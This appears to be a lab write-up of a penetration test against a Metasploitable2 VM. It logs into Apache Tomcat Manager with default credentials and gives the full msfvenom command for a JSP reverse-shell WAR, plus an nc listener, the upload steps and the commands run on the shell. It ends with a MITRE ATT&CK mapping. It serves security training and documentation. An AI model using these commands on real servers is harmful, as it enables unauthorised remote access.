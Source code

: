 # Exploitation Report: Apache Tomcat Manager WAR Shell Upload

# Objective

Gain remote code execution on the target host (Metasploitable2) by leveraging weak credentials in the Apache Tomcat Manager and deploying a WAR-based JSP reverse shell.

---

# Summary

- **Target**: 192.168.6.3:8180
- **Exploit Vector**: Apache Tomcat Manager Interface (`/manager/html`)
- **Vulnerability Type**: Weak/default credentials + remote code execution via WAR deployment
- **Access Gained**: Reverse shell as `tomcat` user
- **Persistence**: Temporary — shell ends if connection is dropped

---

# Step-by-Step Exploitation

1. Validated Tomcat Service
- Navigated to:
http://192.168.6.3:8180/
http://192.168.6.3:8180/manager/html

- Confirmed Apache Tomcat default Manager application is exposed

2. Gained Access Using Default Credentials
- Used credentials:
Username: tomcat
Password: tomcat

- Successfully logged into `/manager/html`

3. Created Reverse Shell WAR Payload
Command used:

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.6.4 LPORT=4444 -f war > shell.war

LHOST was set to Kali machine's IP (192.168.6.4)

LPORT: 4444

4. Started Listener

nc -lvnp 4444

5. Uploaded Payload to Tomcat Manager

Navigated to: WAR upload section

Uploaded: shell.war

New context appeared: /shell

6. Triggered Payload

Visited: http://192.168.6.3:8180/shell/

Succesfully received a reversed shell:

connect to [192.168.6.4] from (192.168.6.3)

Ran commands: 

whoami
id
uname -a # See appropriate screenshot

# MITRE ATT&CK Mapping

Technique

1. Initial Access, ID: T1133, Description: External Remote Services
2. Execution, ID: T1059.004, Description: Unix Shell via reverse connection
3. Persistence, ID: T1505.003, Description: Web Shell via WAR file deployment
4. Credential Access, ID: T1078, Description: Valid Accounts (default credentials)
